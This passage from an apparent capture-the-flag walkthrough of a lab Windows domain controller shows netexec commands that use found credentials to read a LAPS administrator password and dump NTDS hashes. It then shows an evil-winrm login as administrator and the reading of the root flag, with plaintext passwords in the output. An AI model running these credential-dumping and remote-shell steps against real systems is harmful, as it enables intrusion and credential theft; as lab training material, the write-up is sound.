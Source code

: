 As you can see in the output above there's no password. So I switch  to `netexec`

###### `Netexec to read LAPS password`
```
─# netexec smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds                           
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.158    445    DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC         [-] DC\administrator:heU74l%563.bA( STATUS_LOGON_FAILURE
```

```
# evil-winrm -i 10.10.11.158 -u administrator -p 'heU74l%563.bA('
```

But the root flag is in User `Martin's` Folder.
```
*Evil-WinRM* PS C:\Users\Martin\Desktop> type root.txt
449ffb
```

Get your flag